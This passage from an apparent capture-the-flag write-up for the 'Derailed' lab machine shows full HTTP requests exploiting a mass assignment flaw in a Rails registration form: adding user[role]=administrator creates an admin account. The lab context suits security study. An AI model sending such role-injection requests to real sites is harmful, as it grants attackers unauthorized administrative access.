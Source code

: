 # Exploitation

After testing different routes for a longer period of time I started checking the registration and login process.

When calling [http://derailed.htb:3000/administration](http://derailed.htb:3000/administration) we can see that only `admins` are allowed to view that page. Seems like we're dealing with roles that are assigned to each account.

## Register Request

We can see that which parameters are set when we register as a normal user  

```http
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 194
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=%2FxEQgz4cj8kSRMDGb%2FVHF%2B5nRsrspsZ%2Bm8aqmfbxgCnwbPlV7o75R5ZZPl7F4pf5%2Bodirt10UMa5HsERcjf%2BlmrqGE6MZXb6q7KwUnvGhyywfOA4IkhnboRLhdVF7zlSUJLM37mPT659vNhd2xwGd8H1d5hqtGnafx5LXzJlcJOewRzUq3lL41ooI7g01bHd5iXAFsLtfcSMl8mYV5Xyd6YV0Th%2FIrssHBcs7tHpvmQ1rwuBNA%2Fnh7T18i8HGGi5Zt2TLAEL0BCPlm9BAt9yBR4vJPzN26UsaRZab6k%3D--7DW4tXKgtOhzLb6%2F--EDFC25BjrLmw9sKHi38CzQ%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=WampkFYIf5xi_rJxY8XbnNeaxc1kMAUqUaK0wR6CTovyDYW1iH4clfXch_zu_YD091JWMB6XfG4Ryy1OCu3x9A&user[username]=user01&user[password]=user01&user[password_confirmation]=user01
```

## Mass Assignment Vulnerability

After playing around for a while I discovered the right parameter to create an admin account

```http
POST /register HTTP/1.1
Host: derailed.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://derailed.htb:3000/register
Content-Type: application/x-www-form-urlencoded
Content-Length: 223
Origin: http://derailed.htb:3000
DNT: 1
Connection: close
Cookie: _simple_rails_session=wCV43wRVDha2NMtHT1%2BCgeW%2B0kC3kqnGA%2BMeuNdM%2FnA4NE44C9Bjsm%2BgIIPUpGcQX7TI68mSwNGqyrkVkMyru%2Fb0DrUUFgsYNXh6OVUaN%2By%2BkwGiUB95cZZ6rXQGmGb4Xx9MB%2FCB5itzoNB8Yd%2BHNjU%2FLZvpCfNntZwOyU9XTsR9rqXr9FOZy5fqIcNnhurTX7PaLyCHTifyAPCuIzhWbJ9rhtiETv0M2mp%2BIRU7xYGRswqau4jomsnytxL30MyVn9EjnW9oQNKp%2FWicLTS0f1VOK29twih27c4iIec%3D--5DHMtqqxi91urSsu--LLafZP2XM7gzwFFCMZtFOA%3D%3D
Upgrade-Insecure-Requests: 1

authenticity_token=hZTIv7a_WQ0glqeMKIsOk1GFPeMJok89YDlTW8chg54ZLJZoP66r6vf4YfYHq8DEbN7onTfPwvcSQ5dkh6LKag&user[username]=admin&user[password]=admin&user[password_confirmation]=admin&user[role]=administrator
```
